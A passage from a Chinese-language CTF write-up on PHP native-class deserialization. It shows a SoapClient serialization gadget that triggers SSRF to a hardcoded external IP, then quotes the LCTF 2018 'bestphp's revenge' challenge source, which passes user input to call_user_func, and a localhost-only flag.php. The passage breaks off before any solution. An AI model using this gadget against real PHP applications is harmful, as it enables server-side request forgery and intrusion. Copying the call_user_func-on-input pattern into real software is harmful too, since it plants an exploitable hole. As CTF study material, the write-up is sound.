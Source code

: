 







## 原生类反序列化利用

### SoapClient

这个往往就是用于ssrf的

```
<?php
$a = new SoapClient(null,array('location'=>'http://49.233.121.53:54/aaa', 'uri'=>'http://49.233.121.53:54'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

#### bestphp's revenge

题目给出了源码

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?> array(0) { }
```

经过扫描发现flag.php

```

only localhost can get flag!session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!

```
